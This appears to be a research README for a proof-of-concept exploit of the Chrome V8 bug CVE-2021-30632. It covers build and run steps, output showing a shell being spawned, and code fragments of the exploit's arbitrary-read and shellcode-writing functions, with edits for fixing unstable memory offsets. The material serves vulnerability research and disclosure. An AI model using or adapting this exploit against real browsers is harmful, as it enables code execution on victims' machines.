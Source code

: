 ## Chrome in-the-wild bug CVE-2021-30632

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit here is tested on `v8` version 9.3.345.16 (commit `632e6e7`), which is the version shipped with Chrome 93.0.4577.63, the one before the bug is fixed, on Ubuntu 20.04. I have not tested it on Chrome itself.

To test, check out `v8` at commit `632e6e7` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
instance: 81d42dd
elements: 804abd9
rwx page address: 22c70c88b000
intArray addr: 8105d79
intBackingStore: 56498ceb25e0
$
```

Shell code may need changing on other platforms.

The exploit is very reliable, however, when testing, I noticed that some offsets appear to be sensitive to small changes in the file (even adding comments may cause problem), which would cause the exploit to fail. This only happens when the file is modified and usually manifests itself with some garbage values of the addresses, for example:

```
instance: 81d42dd
elements: 800222d
rwx page address: 3ff199999999999a
intArray addr: 81067e1
intBackingStore: 3ff199999999999a
```

In the above, address of `rwx page` and `initBackingStore` are clearly incorrect. The root cause seems to be an incorrect `elements` store value. (`800222d` is not a valid value) This can usually be fixed by changing the following lines regarding the address of elements:

```
function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);  //<---- change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));          //<---- change to   oobWrite(i32tof(addr1,addr));
  return writeArr[0];
}
...
function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  console.log("intArray addr: " + intArrAddr.toString(16));
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  console.log("intBackingStore: " + ftoi(arbRead(intArrAddr + 0x20)).toString(16));

  [elements, addr1] = ftoi32(addrs[1]);              //<------ change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));        //<------ change this to oobWrite(i32tof(addr1, intArrAddr + 0x20));
  ...
}
...
var elementsAddr = ftoi32(addrs[1])[0];             //<------- change this to var elementsAddr = ftoi32(addrs[1])[1];
```

This, however, does not affect the reliability of the exploit as the offsets are stable as long as the file is fixed, but it may cause issues if the poc is modified. I do not know what causes this, but the exploit can probably be made more robust against this by matching patterns in memory instead of relying on fixed offsets.
